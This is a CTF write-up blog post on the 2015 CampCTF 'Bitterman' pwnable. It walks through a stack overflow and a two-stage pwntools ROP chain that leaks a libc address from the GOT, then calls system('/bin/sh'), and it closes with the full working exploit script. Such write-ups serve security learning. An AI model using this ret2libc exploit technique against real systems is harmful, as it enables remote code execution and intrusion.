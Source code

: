 ```yaml
---
layout: post
title:  "CampCTF Bitterman"
date:   2015-08-18 18:03:59
categories: CTF Pwnable
---
```

Upon connecting, we are given a prompt which asks for the following items:

* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:

* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:

```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:

```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Exploit Code

```python

from pwn import *
import struct
context(arch='amd64')

r = process('./bitterman')
# r = remote('challs.campctf.ccc.ac','10103')

elf = ELF('./bitterman')
libc = ELF('libc.so.6')
# libc = ELF('libc-2.19.so')
rop = ROP(elf)

"""
gdb.attach(r, '''
bp 0x400704
''')
"""

print r.recv()

# raw_input()
### Stack address leaked when filling the name buffer to its max (64 bytes)
# r.sendline('a' * 64)
# leak = r.recv().split()[1][64:72]
r.sendline('')
r.recv()

r.sendline('1024')

####
# Leak read from GOT
# Call main to rethrow exploit with magic libc gadget
###
rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

log.info("ROP 1 - read( puts() from GOT); call main")
print rop.dump()

"""
RIP  0x4007e1 (main+245) <-- ret
[-------------------------------CODE-------------------------------]
=> 0x4007e1 <main+245>    ret    
[------------------------------STACK-------------------------------]
00:0000| rsp  0x7fffffffdaf8 <-- 'naaboaabpaabqaa...'
"""

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
# shellcode = 'B' * (cyclic_find('oaab') - 4)
shellcode += str(rop)

r.clean()
r.sendline(shellcode)

r.recvuntil('Thanks!')

log.info("Sending stage two")

# Be sure to add the zeros that we miss due to string read
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')
log.info("Leak: {}".format(repr(leaked_puts)))
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Reset libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
log.info('Libc address: {}'.format(hex(libc.address)))

# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

log.info("ROP 2:")
print rop2.dump()

r.clean()
raw_input('name')
r.sendline('')
raw_input('length')
r.sendline('1024')

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
shellcode += str(rop2)

raw_input('send?')
r.sendline(shellcode)

r.interactive()
```

